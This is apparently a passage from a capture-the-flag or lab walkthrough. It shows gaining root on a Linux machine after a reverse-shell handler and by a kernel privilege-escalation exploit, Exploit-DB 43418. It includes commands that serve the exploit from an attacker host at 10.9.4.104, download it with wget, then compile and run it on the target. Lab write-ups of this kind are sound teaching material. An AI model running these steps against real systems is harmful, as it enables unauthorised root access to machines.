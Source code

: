 ![image](https://user-images.githubusercontent.com/67465230/186830322-def07f62-1e40-4012-b00d-3e285c360b47.png)

Open a handler that will listen to the port we have mentioned and we should have a root shell: 

![image](https://user-images.githubusercontent.com/67465230/186830355-03cd8a66-fd6c-4f26-b1cf-0c4de0a5c7a1.png)

## Kernel Exploitation (Another method)

After getting foothold on the system, we can start enumerating the machine and see what kernel version is,

```bash
uname -a
```

![image](https://user-images.githubusercontent.com/67465230/186830468-1d5b5b40-3d92-48d6-bf3d-ed413214dfdd.png)

from this command, we can see the kernel version running on the system is **4.8.0-58-generic**.

So I decided to look for possible exploits for this kernel version and I got one, [Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escalation (KASLR / SMEP)](https://www.exploit-db.com/exploits/43418)

![image](https://user-images.githubusercontent.com/67465230/186830500-f24b7666-e323-427c-8a98-37675cc23fc4.png)

we got an exploit which is written in c language. Let's download this exploit.

Now, start the python server using `python3 -m http.server` and transfer the exploit file onto target machine and then we can compile it using gcc compiler. Then running it, we will get root,

```bash
wget http://10.9.4.104:8000/43418.c
gcc 43418.c -o fire
./fire
```

![image](https://user-images.githubusercontent.com/67465230/186830554-5732de9f-c4b4-4fb2-b3f3-ee39ebc250ff.png)
